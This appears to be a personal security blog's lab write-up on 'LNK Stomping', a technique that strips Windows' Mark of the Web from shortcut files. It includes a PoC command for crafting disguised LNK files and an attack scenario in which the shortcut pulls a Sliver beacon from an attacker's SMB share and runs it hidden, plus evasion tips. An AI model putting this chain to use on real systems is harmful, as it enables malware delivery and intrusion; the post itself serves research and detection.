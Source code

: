 ```yaml
---
title: "LNK Stomping"
date: 2024-09-04T17:17:01-06:00
draft: false
---
```



This [PoC provided by Elastic](https://github.com/joe-desimone/rep-research) is about LNK Stomping. Currently Microsoft has not provided a CVE for this method; however, they did release CVE-2024-38212, a MotW bypass vulnerability, but only included SmartScreen, not Smart App Control (SAC). As this testing is done on Windows 10 with build number 19045, I won't be dealing with SAC anyway. The PoC can bypass both.

A quick primer on MotW from Elastic:
> When a user downloads a file, the browser will create an associated “Zone.Identifier” file in an [alternate data stream](https://www.digital-detective.net/forensic-analysis-of-zone-identifier-stream/) (ADS) known as the Mark of the Web (MotW). This lets other software (including AV and EDR) on the system know that the file is more risky. SmartScreen only scans files with the Mark of the Web. SAC completely blocks certain file types if they have it. This makes MotW bypasses an interesting research target, as it can usually lead to bypassing these security systems. Financially motivated threat groups have discovered and leveraged [multiple vulnerabilities](https://blog.google/threat-analysis-group/magniber-ransomware-actors-used-a-variant-of-microsoft-smartscreen-bypass/) to bypass MotW checks. These techniques involved appending crafted and invalid code signing signatures to javascript or MSI files.

I explained what an ADS is in a previous post [T1564.004](https://axelarator.github.io/ntfs)
> A data stream that is alternate to the normal data stream. The data attribute (`$DATA`) is called the “normal” data stream or “unnamed” data stream since it can be left blank.
>     - A normal data stream looks like `$DATA:""`
>     - An alternate data stream can be `$DATA:"SecondStream"`
> - To read what’s inside an ADS
>     - `Get-Item -path <file> -stream *`
>     - `Get-Content -path <file> -stream <stream name>`
> - To add streams to a file
>     - `set-content -path <path> -stream <stream name>`
> - To search for ADS
>     - `gci -recurse | % { gi $_.FullName - stream * } | where stream -ne ':$Data'`
> - To remove ADS
>     - `remove-item -path <path> -stream <stream name>`
> - A sysinternals tool called `streams.exe` can also enumerate streams
>     - `streams <file path>`

To provide a more visual explanation, taking the PoC GithHub repo above, you can view the data streams within the ZIP file (`Get-Item`) and view the contents to see where it came from (`Get-Content`). I downloaded the ZIP directly because cloning the repo only provides a `$DATA` stream. The Git client simply does not have a Zone.Identifier ADS which can also be treated as a way to bypass MotW. 
![1.png](/lnkstomping/1.png)

What's interesting from the first screenshot is the inclusion of a SmartScreen data stream. This is a stream that provides an additional hook into the registered AV engine.

![3.png](/lnkstomping/3.png)

SysInternals also includes a tool if that command is too annoying to type out. The caveat being you can't view the content.
https://learn.microsoft.com/en-us/sysinternals/downloads/streams

![4.png](/lnkstomping/4.png)

Now rather than just using a different file type like an ISO embedded within a ZIP archive, something [Black Basta](https://www.trendmicro.com/en_us/research/22/j/black-basta-infiltrates-networks-via-qakbot-brute-ratel-and-coba.html) and numerous other threat actors have done in the past, Elastic uncovered another trivial way of evading MotW by using LNK files with non-standard target paths or internal structures. When the file is clicked, `explorer.exe` modifies the file with canonical formatting, removing the MotW label. 
In this example, I used the dot variant which appends a dot after the PowerShell executable so it looks like `~\powershell.exe.` 

```python
python lnk_stomping.py --executable c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe --arguments "-c calc" --icon folder --variant dot --output totally_legit.lnk
```

The `--icon` argument argument can either make the LNK file to appear as a folder or pdf icon. An [obfuscation method](https://attack.mitre.org/techniques/T1027/012/) threat actors use to make their files appear legit.

![5.png](/lnkstomping/5.png)

Using Eric Zimmerman's tool LECMD, the path with the dot operator can be seen
![6.png](/lnkstomping/6.png)

Since all of this was done locally, testing if it evades MotW won't work since it was never applied in the first place. Instead, I hosted this file elsewhere and download it to my Windows system and you can see below the Zone.Identifier stream attached. If you're wondering why the filename changed, the GitHub repo hosts sample files already configured with dot, path segment, and relative variants. Each of them can be recreated anyway using the Python script and supplying the appropriate variant you want to test.

![7.png](/lnkstomping/7.png)

Following execution with a successful `calc.exe` process opened, the stream is gone!
![8.png](/lnkstomping/8.png)

Viewing the LNK via LECMD again confirms Windows Explorer did indeed modify the file to fix the trailing dot.
![9.png](/lnkstomping/9.png)

### Attack Scenario

To put a little more effort into this, I modified the arguments to download a remote file and execute it to gain a Sliver beacon. I'm not trying to win any awards for defense evasion or command obfuscation but you could simplify this a bit with `psexec`. However, since `psexec` is a part of the Sysinternals suite, it would rely on the victim already having it installed which in this case isn't realistic. 

`-c net use \\192.168.98.108\kalishare /USER:anon anon; copy \\192.168.98.108\kalishare\READY_CANAL.exe; powershell.exe -WindowStyle hidden .\READY_CANAL.exe" --icon pdf --variant dot --output sliver.lnk`

The command starts by connecting to an SMB share running on the attacker system with credentials anon:anon. 

![10.png](/lnkstomping/10.png)

Next, it copies the Sliver beacon to the victim's current working directory. But in order to copy a beacon, one has to be created first. Within the sliver terminal:

`generate beacon -b 192.168.98.108 --skip-symbols --debug -j 5 -S 15 --os windows`

Without providing a name, it will create a randomly generated one which in this case is `ROYAL_CANAL.exe`. Better opsec would be to rename this as a process already present on Windows, like `svchost.exe`. It won't totally evade detection as Sliver is very well known and Windows Defender signatures will flag and purge this instantly, but it's a start. Next steps would be to implement something like [PEzore](https://iwantmore.pizza/posts/PEzor.html)

So with a beacon payload generated and an SMB share running, the last step is to start an HTTPS listener so the beacon has something to connect back to.

![11.png](/lnkstomping/11.png)

Everything's ready so it's time to execute! Following execution, Sliver got a callback. 
![12.png](/lnkstomping/12.png)

From here, it's up to the features of Sliver and any additional tools within the Armory to carry out further attacks. If noise is what you're after, you could run `seatbelt -i -- -group=system` to dump everything about the current system. Mainly Event ID's 4798 (group-membership-enumerated) and 4799 (user-member-enumerated). 
Since this is an HTTPS beacon, you'll see a lot of Sysmon event ID 3 ( Network connection detected) logs too for each task and check-in. 

For this lab, the user account is vulnerable by default and a part of the Administrators group so owning the system is quite easy.

![13.png](/lnkstomping/13.png)

### References
https://www.elastic.co/security-labs/dismantling-smart-app-control
https://github.com/joe-desimone/rep-research
https://redcanary.com/threat-detection-report/techniques/mark-of-the-web-bypass/
https://unprotect.it/technique/mark-of-the-web-motw-bypass/
